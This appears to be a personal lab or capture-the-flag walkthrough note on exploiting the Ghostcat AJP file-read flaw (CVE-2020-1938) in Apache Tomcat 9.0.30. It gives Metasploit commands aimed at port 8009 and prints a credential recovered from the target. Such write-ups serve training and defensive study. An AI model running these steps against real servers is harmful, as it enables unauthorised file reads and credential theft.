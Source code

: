 ## Web Server

#Attacking_machine
Visit `http://<MACHIINE IP>:8080/`

![[Screenshot_2025-10-16_05-01-09.png]]

## Vulnerabilities
### 1) Quick background (why this works)

- The AJP connector (default port **8009**) in Tomcat can be abused (Ghostcat, **CVE-2020-1938**) to read files from webapps or even cause file inclusion in some setups. Tomcat **9.0.30** is in the vulnerable range. [Medium+2sonatype.com+2](https://medium.com/%40sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23?utm_source=chatgpt.com)
    

---

### 2) Confirm vulnerability (enumeration)

You already have `Apache Tomcat/9.0.30` from your scan — that matches known vulnerable versions. 

### 3) Read files via AJP (file read) — common approach

Metasploit includes modules to interact with AJP/Ghostcat:

Configuration options:

![[Screenshot_2025-10-16_04-52-48.png]]

Run:
```
msfconsole
# then:
use auxiliary/scanner/http/tomcat_ghostcat  # (module name may vary; search for "ghostcat")
set RHOSTS <TARGET_IP>
set RPORT 8009
run
```

![[Screenshot_2025-10-16_04-54-50.png]]

You have credentials: `webdev:Hgj3LA$02D$Fa@21`

**Next step:** [[Ghostcat exploit]]
